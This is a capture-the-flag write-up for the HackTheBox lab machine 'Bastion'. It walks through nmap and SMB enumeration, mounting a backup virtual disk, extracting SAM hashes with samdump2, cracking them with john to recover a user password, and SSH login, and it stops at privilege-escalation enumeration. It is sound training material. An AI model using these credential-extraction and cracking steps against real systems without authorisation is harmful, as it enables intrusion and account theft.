 # bastion.htb
### Write-up for the bastion machine from hackthebox

Bastion was an awesome box. Mounting an SMB share and enumerating its contents reveals a virtual hard disk, that you need to either figure out how to mount or open in a VM. I chose to mount via kali. Once mounted, you can get user creds using samdump2, ssh into the box and begin enumerating for privesc. You'll find a application that insecurely stores passwords. If you didn't spin up a VM earlier, you'll have to do it now in order to get admin creds and root the box.

### Scan and Basic Recon

I began with a safe script and version scan with nmap

```
nmap -sV -sC -oN tcp.nmap 10.10.10.134

Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-03 15:21 CDT
Nmap scan report for 10.10.10.134
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-03T22:22:17+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-05-03 15:22:16
|_  start_date: 2019-05-03 14:40:05

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

Neat! No web servers so far, and anonymous access to SMB enabled. I ran `smbmap -u anonymous -H 10.10.10.134` and got the following output.

```
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445	Name: 10.10.10.134                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	NO ACCESS
	Backups                                           	READ, WRITE
	[!] Unable to remove test directory at \\10.10.10.134\Backups\CMmGdHrWob, plreae remove manually
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```

Taking a peek into the `Backups` share with `smbclient` shows many things to investigate. I could file transfer to my local machine, but that seems a bit excessive, especially with some files in the share that are larger than 5GB. Let's try mounting the share. I first made a mount point in `/mnt`.

`mkdir /mnt/smb`

and then ran

`mount.cifs //10.10.10.134/Backups /mnt/smb`

Success! Let's rummage through here and see what we can find. That 5GB file I mentioned earlier is a virtual hard drive. I'd like to see what's on it. I could open it in a VM, but hey we've been mounting successfully so far and ~my computer is crap and likely wont't be able to handle the load of a VM~ I'm feeling lucky.

After much research, I saw that I could use `guestmount` from [libguestfs-tools](http://libguestfs.org/guestmount.1.html). After installing `libguestfs-tools` I ran

`guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/vhd/`

The drive name following the `-a` is what will be mounted. `-i` inspects the disk looking for an operating system and mounts the filesystem as it would be mounted on the real virtual machine. `--ro` mounts the drive in read only mode. It gave me the below output.

![Screenshot from 2019-07-25 22-23-45](https://user-images.githubusercontent.com/46615118/61970965-780a9400-afa3-11e9-825d-fa6189a01135.jpg)

### Gaining Access

On Windows, the Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. SAM passwords are stored as a LM hash or as a NTLM hash. This file can be found in `%SystemRoot%/system32/config/SAM`.

I used `samdump2` to extract the hashes from the SAM db.

![Screenshot from 2019-07-25 22-37-43](https://user-images.githubusercontent.com/46615118/61974849-2d8e1500-afad-11e9-908f-daf4ea2f346b.jpg)

I then ran john against the hashes, using rockyou.txt as the wordlist

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`

and this gave me creds for L4mpje:

```
john --show --format=NT ~/Desktop/hashes.txt 
*disabled* Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Looking back at our nmap output we see that ssh is available. I try `ssh L4mpje@10.10.10.134` and enter the password, and we're in and can get `user.txt`!

![Screenshot from 2019-07-25 22-46-24 (1)](https://user-images.githubusercontent.com/46615118/61975322-6e3a5e00-afae-11e9-9e77-e4cff510e912.jpg)

### Privesc and Pwn

Next I need to enumerate to find a path to privesc. A reasonable start would be to [look at the programs that the user installed](https://www.howtogeek.com/165293/how-to-get-a-list-of-software-installed-on-your-pc-with-a-single-command/) on the machine. I ran the following powershell to output installed software on the machine.

```Powershell
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallDate
```


![Screenshot from 2019-05-23 15-45-18](https://user-images.githubusercontent.com/46615118/61974304-d5a2de80-afab-11e9-81f8-54f9a3bc92e4.jpg)
